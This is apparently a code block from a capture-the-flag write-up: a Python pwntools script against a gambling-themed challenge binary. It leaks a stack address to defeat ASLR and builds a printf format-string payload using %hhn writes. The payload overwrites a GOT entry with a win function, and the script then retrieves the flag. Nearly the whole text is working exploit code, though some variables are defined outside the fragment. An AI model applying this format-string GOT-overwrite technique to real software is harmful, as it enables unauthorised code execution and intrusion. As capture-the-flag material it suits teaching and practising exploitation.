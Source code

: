 ```
fibSeq = calc_fibSeq()
for i in range(5):
    p.recvuntil(") ")
    if (int(p.recvuntil("\n")[:-1])) not in fibSeq:
        break
p.recvuntil("> ")
p.sendline(str(i+1))
p.recvuntil('Well done, ')
stackLeak = p.recvuntil("!")[:-1]
stackLeak = '0x' + stackLeak

# Calc base address
stackLeak = int(stackLeak, 16)
baseAddr = stackLeak - leak_addr

printfAddr = p32(baseAddr + printf_addr)
winAddr = str(p32(baseAddr + win_addr))

# Craft exploit
exploit = ""

exploit += str(p32(u32(printfAddr)+ 0))
exploit += str(p32(u32(printfAddr)+ 1))
exploit += str(p32(u32(printfAddr)+ 2))
exploit += str(p32(u32(printfAddr)+ 3))

outLen = len(exploit)
padding = []
padding.append(ord(winAddr[0])+ 0x100 - outLen)
padding.append(ord(winAddr[1])+ 0x100 - ord(winAddr[0]))
padding.append(ord(winAddr[2])+ 0x100 - ord(winAddr[1]))
padding.append(ord(winAddr[3])+ 0x100 - ord(winAddr[2]))

exploit += "%" + str(padding[0]) + "x" + "%" + str(stack) + "$hhn"
exploit += "%" + str(padding[1]) + "x" + "%" + str(stack + 1) + "$hhn"
exploit += "%" + str(padding[2]) + "x" + "%" + str(stack + 2) + "$hhn"
exploit += "%" + str(padding[3]) + "x" + "%" + str(stack + 3) + "$hhn"

# Change handle to be the exploit
p.recvline()
p.sendline("a")
p.recvuntil("What will you do?")
p.sendline("c")
p.sendline("c")
p.recvuntil("What is your new handle?")
p.sendline(exploit)

# Re-gamble to overwite GOT and get flag
p.recvuntil('What will you do? ')
p.sendline('g')
p.recvuntil("): ")
p.sendline('.1')
p.recvuntil("one out:\n")
fibSeq = calc_fibSeq()
for i in range(5):
    p.recvuntil(") ")
    if (int(p.recvuntil("\n")[:-1])) not in fibSeq:
        break
p.recvuntil("> ")
p.sendline(str(i+1))
p.recvline()
p.recvuntil("dea")
flag = p.recvline()
```